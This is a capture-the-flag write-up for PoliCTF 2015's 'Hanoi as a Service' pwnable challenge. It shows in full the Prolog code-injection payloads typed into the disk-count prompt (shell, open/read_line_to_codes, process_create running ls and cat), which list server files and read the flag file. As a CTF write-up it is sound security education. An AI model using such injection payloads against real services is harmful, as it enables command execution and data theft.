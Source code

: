 ```yaml
---
layout: post
title: "PoliCTF 2015 - Hanoi as a Service"
category: writeups
author: thezero
tags: pwnable polictf-2015
---
```


## Hanoi as a Service
Pwnable - 50 Points

Check out our shiny new HaaS platform!<br/>
`nc haas.polictf.it 80`

### Writeup

We started playing with the Hanoi service:
{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
-1  
ERROR: Prolog initialisation failed:
ERROR: Out of local stack
{% endhighlight %}

Yeah, Prolog.<br/>
Typing random input in prolog we landed on a Python exception talking about a `/home/ctf/haas/haas-proxy.py` file.<br/>
We wanted to read that file so bad that we asked to ocean (the CTF organizer) if it was Open Source :D<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),shell("cat /home/ctf/haas/haas-proxy.py")
Nice try...
{% endhighlight %}

So, there are some checks on the input after all ahaha<br/>
We tried reading the file with prolog itself<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),open('/home/ctf/haas/haas-proxy.py',read,X),read_line_to_codes(X, A),write_ln(A
[35,33,47,117,115,114,47,98,105,110,47,101,110,118,32,112,121,116,104,111,110]
{% endhighlight %}

Converted the array to string
{% highlight javascript %}
var s=[35,33,47,117,115,114,47,98,105,110,47,101,110,118,32,112,121,116,104,111,110],s1=""
for(var i=0;i<s.length;i++){
   s1+=String.fromCharCode(s[i]);
}
console.log(s1)
// output: #!/usr/bin/env python
{% endhighlight %}

With this method we can only read the first line.<br/>
Reading the Prolog documentation we hit the "process_create/3" function.<br/>
MUAHAHAHAHAHAHAHAH<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),process_create(path(ls),['-l','/home/ctf/haas'],[]
total 372
-rwxr-x--- 1 ubuntu ctf 369220 Jun  1 12:27 haas
-rwxr-x--- 1 ubuntu ctf   1572 Jun  1 12:27 haas-proxy.py
-r--r----- 1 ubuntu ctf     35 Jun  1 12:18 jhknsjdfhef_flag_here
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),process_create(path(cat),['/home/ctf/haas/jhknsjdfhef_flag_here'],[]
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
{% endhighlight %}


Game, Set, Match.

PS: As promised, the [haas-proxy.py sources](https://gist.github.com/TheZ3ro/869ca084df8f4d5d58ea)
